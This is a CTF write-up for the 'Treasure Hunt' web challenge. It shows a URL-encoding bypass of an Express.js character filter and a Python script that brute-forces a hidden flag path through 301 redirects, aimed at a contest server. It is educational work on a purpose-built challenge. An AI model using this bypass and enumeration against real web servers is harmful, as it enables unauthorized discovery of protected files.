 # Treasure Hunt

<details><summary><strong>Table of Contents</strong></summary>

- [Overview](#overview)
- [Background](#background)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
- [Conclusion](#conclusion)

</details>

## Overview

- 71 solves / 116 points
- Author: @ark
- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

Can you find a treasure?

![](https://github.com/siunam321/CTF-Writeups/blob/main/AlpacaHack-Round-7-Web/images/Pasted%20image%2020241201150730.png)

## Enumeration

Index page:

![](https://github.com/siunam321/CTF-Writeups/blob/main/AlpacaHack-Round-7-Web/images/Pasted%20image%2020241201150816.png)

In here, we can go to different paths, such as `/book`:

![](https://github.com/siunam321/CTF-Writeups/blob/main/AlpacaHack-Round-7-Web/images/Pasted%20image%2020241201150900.png)

Which is just a book emoji.

However, if we go to `/alpaca`, it says "Bad URL: /alpaca":

![](https://github.com/siunam321/CTF-Writeups/blob/main/AlpacaHack-Round-7-Web/images/Pasted%20image%2020241201150953.png)

Hmm... Why is that? Let's read the source code of this web application and figure out why.

**In this challenge, we can download a [file](https://github.com/siunam321/CTF-Writeups/blob/main/AlpacaHack-Round-7-Web/Treasure-Hunt/treasure-hunt.tar.gz):**
```shell
┌[siunam♥Mercury]-(~/ctf/AlpacaHack-Round-7-(Web)/Treasure-Hunt)-[2024.12.01|15:10:58(HKT)]
└> file treasure-hunt.tar.gz 
treasure-hunt.tar.gz: gzip compressed data, from Unix, original size modulo 2^32 51200
┌[siunam♥Mercury]-(~/ctf/AlpacaHack-Round-7-(Web)/Treasure-Hunt)-[2024.12.01|15:11:00(HKT)]
└> tar xvzf treasure-hunt.tar.gz 
treasure-hunt/
treasure-hunt/compose.yaml
treasure-hunt/web/
treasure-hunt/web/index.js
treasure-hunt/web/package.json
treasure-hunt/web/package-lock.json
treasure-hunt/web/Dockerfile
treasure-hunt/web/public/
treasure-hunt/web/public/key
[...]
```

After reading the source code, we can find that this is a very simple web application written in JavaScript with Express.js framework.

In `web/Dockerfile`, we can also see that the flag file is in a very weird path:

```bash
# Create flag.txt
RUN echo 'Alpaca{REDACTED}' > ./flag.txt

# Move flag.txt to $FLAG_PATH
RUN FLAG_PATH=./public/$(md5sum flag.txt | cut -c-32 | fold -w1 | paste -sd /)/f/l/a/g/./t/x/t \
    && mkdir -p $(dirname $FLAG_PATH) \
    && mv flag.txt $FLAG_PATH
```

Assume the flag's MD5 hash is `3876917cbd1b3db12e39587c66ac2891`, the flag path is something like this:

```
./public/3/8/7/6/9/1/7/c/<snipped_md5_hash_path>/8/9/1/f/l/a/g/t/x/t
```

Hmm... So we'll need to brute force the flag's MD5 hash and get the correct path?

Anyway, why path `/alpaca` will return bad URL?

If we take a look at `web/index.js`, we can see that every requests must go through this [middleware](https://expressjs.com/en/guide/using-middleware.html):

```javascript
app.use((req, res, next) => {
  res.type("text");
  if (/[flag]/.test(req.url)) {
    res.status(400).send(`Bad URL: ${req.url}`);
    return;
  }
  next();
});
```

In here, if our request's URL path has character `f`, `l`, `a`, or `g`, it'll return HTTP status 400 with data `Bad URL: <our_path>`.

In the above case, path `/alpaca` has character `a`, which matched the regular expression pattern, thus returning bad URL.

Hmm... Wait, will `req.url` automatically perform URL decode? Maybe we can **bypass it via URL encoding**?

Let's log `req.url` and check it out!

```javascript
app.use((req, res, next) => {
  console.log("[DEBUG] req.url", req.url);
  
  res.type("text");
  if (/[flag]/.test(req.url)) {
    res.status(400).send(`Bad URL: ${req.url}`);
    return;
  }
  next();
});
```

```shell
┌[siunam♥Mercury]-(~/ctf/AlpacaHack-Round-7-(Web)/Treasure-Hunt)-[2024.12.01|15:27:15(HKT)]
└> cd treasure-hunt 
┌[siunam♥Mercury]-(~/ctf/AlpacaHack-Round-7-(Web)/Treasure-Hunt/treasure-hunt)-[2024.12.01|15:27:15(HKT)]
└> docker compose up --build
[...]
Attaching to treasure-hunt-1
```

```http
GET /%61%6c%70%61%63%61 HTTP/1.1
Host: localhost:3000


```

Response:

```http
HTTP/1.1 200 OK
[...]

🦙

```

Log message:

```shell
treasure-hunt-1  | [DEBUG] req.url /%61%6c%70%61%63%61
```

Nope, it doesn't URL decode our path, and we successfully bypassed the filter!

Now, how can we brute force the flag's path?

After some trial and error, it seems like when the requested resource is a directory and missing a forward slash like `/1`, we'll be redirected to the correct path, such as `/1/`:

```http
GET /3 HTTP/1.1
Host: localhost:3000


```

Response:

```http
HTTP/1.1 301 Moved Permanently
[...]
Location: /3/
[...]

<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Redirecting</title>
</head>
<body>
<pre>Redirecting to /3/</pre>
</body>
</html>
```

## Exploitation

With that said, we can write a Python script to brute force the correct path and get the flag!

<details><summary><strong>solve.py</strong></summary>

```python
#!/usr/bin/env python3
import http.client
from string import hexdigits

class Solver:
    def __init__(self, baseUrl):
        self.baseUrl = baseUrl
        self.connection = http.client.HTTPConnection(self.baseUrl.split('http://')[1])
        self.MD5_CHARACTER_SET = hexdigits
        self.MD5_HEX_LENGTH = 32

    def urlEncodeCharacter(character):
        return f'%{ord(character):x}'
    
    def bruteForceFlag(self):
        flagHash = str()
        finalPath = '/'
        while True:
            for character in self.MD5_CHARACTER_SET:
                if len(flagHash) == self.MD5_HEX_LENGTH:
                    print(f'\n[+] Got flag MD5 hash: {flagHash}')
                    return finalPath

                print(f'[*] Brute forcing character "{character}"', end='\r')
                encodedCharacter = Solver.urlEncodeCharacter(character)
                path = f'/{encodedCharacter}' if finalPath == '/' else f'{finalPath}/{encodedCharacter}'
                self.connection.request("GET", path)
                response = self.connection.getresponse()
                response.read()

                isCorrectCharacter = True if response.status == 301 else False
                if not isCorrectCharacter:
                    continue
                
                finalPath += f'{encodedCharacter}/'
                flagHash += character
                break

    def getFlag(self, flagHashPath):
        finalPath = flagHashPath
        for character in ['f', 'l', 'a', 'g', 't', 'x', 't']:
            encodedCharacter = Solver.urlEncodeCharacter(character)
            finalPath += f'{encodedCharacter}/'

        finalPath = finalPath.rstrip('/')
        print(f'[*] Getting the flag via path: {finalPath}')

        self.connection.request("GET", finalPath)
        response = self.connection.getresponse()
        data = response.read()
        flag = data.decode().strip()
        print(f'[+] Flag: {flag}')

    def solve(self):
        flagHashPath = self.bruteForceFlag()
        self.getFlag(flagHashPath)

if __name__ == '__main__':
    # baseUrl = 'http://localhost:3000' # for local testing
    baseUrl = 'http://34.170.146.252:19843'
    solver = Solver(baseUrl)

    solver.solve()
```

</details>

```shell
┌[siunam♥Mercury]-(~/ctf/AlpacaHack-Round-7-(Web)/Treasure-Hunt)-[2024.12.01|16:15:11(HKT)]
└> python3 solve.py
[*] Brute forcing character "f"
[+] Got flag MD5 hash: 4bafb19a7b66cb415eb070ce1a1b2e8f
[*] Getting the flag via path: /%34/%62/%61/%66/%62/%31/%39/%61/%37/%62/%36/%36/%63/%62/%34/%31/%35/%65/%62/%30/%37/%30/%63/%65/%31/%61/%31/%62/%32/%65/%38/%66/%66/%6c/%61/%67/%74/%78/%74
[+] Flag: Alpaca{alpacapacapacakoshitantan}
```

- **Flag: `Alpaca{alpacapacapacakoshitantan}`**

## Conclusion

What we've learned:

1. Regular expression bypass via URL encoding